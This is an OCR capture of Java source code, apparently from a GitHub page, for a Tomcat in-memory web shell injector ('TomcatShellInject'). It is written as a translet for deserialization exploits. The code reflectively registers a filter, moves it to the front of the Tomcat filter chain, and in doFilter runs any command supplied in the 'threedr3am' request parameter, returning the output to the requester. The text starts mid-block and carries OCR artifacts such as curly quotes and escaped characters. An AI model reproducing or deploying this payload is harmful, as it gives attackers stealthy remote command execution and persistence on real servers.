     ```
     if (standardContext != null) {
                         //生效filter
                         java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class
                             .getMethod("filterStart");
                         filterStartMethod.setAccessible(true);
                         filterStartMethod.invoke(standardContext, null);

                         //把filter插到第一位
                         org.apache.tomcat.util.descriptor.web.FilterMap[] filterMaps = standardContext
                             .findFilterMaps();
                         for (int i = 0; i &lt; filterMaps.length; i++) {
                             if (filterMaps[i].getFilterName().equalsIgnoreCase("threedr3am")) {
                                 org.apache.tomcat.util.descriptor.web.FilterMap filterMap = filterMaps[i];
                                 filterMaps[i] = filterMaps[0];
                                 filterMaps[0] = filterMap;
                                 break;
                             }
                         }
                     }
                 }
             }
         }
     } catch (Exception e) {
         e.printStackTrace();
     } 
    ```

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler)
    throws TransletException {

    }

    @Override
    public void init(FilterConfig filterConfig) throws ServletException {

    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse,
    FilterChain filterChain) throws IOException, ServletException {
    System.out.println(
    “TomcatShellInject doFilter…”);
    String cmd;
    if ((cmd = servletRequest.getParameter(“threedr3am”)) != null) {
    Process process = Runtime.getRuntime().exec(cmd);
    java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
    new java.io.InputStreamReader(process.getInputStream()));
    StringBuilder stringBuilder = new StringBuilder();
    String line;
    while ((line = bufferedReader.readLine()) != null) {
    stringBuilder.append(line + ‘\n’);
    }
    servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
    servletResponse.getOutputStream().flush();
    servletResponse.getOutputStream().close();
    return;
    }
    filterChain.doFilter(servletRequest, servletResponse);
    }